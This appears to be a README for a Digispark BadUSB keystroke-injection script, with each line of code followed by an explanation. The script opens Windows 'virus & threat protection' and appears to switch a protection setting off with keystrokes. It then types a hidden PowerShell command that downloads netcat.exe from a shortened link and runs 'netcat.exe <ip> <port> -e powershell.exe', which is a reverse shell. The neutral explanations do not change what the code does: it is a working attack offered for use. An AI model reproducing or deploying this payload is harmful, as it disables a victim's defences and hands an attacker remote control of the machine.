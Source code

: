 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code><div align="center"> <color="#00979C">#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>

<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>

<em><div align="center"><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>

<em><div align="center"><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>

<em><div align="center"><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>
<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>

<em><div align="center"><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> <code color="#00979C">void loop(){}</code>

<em><div align="center"><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




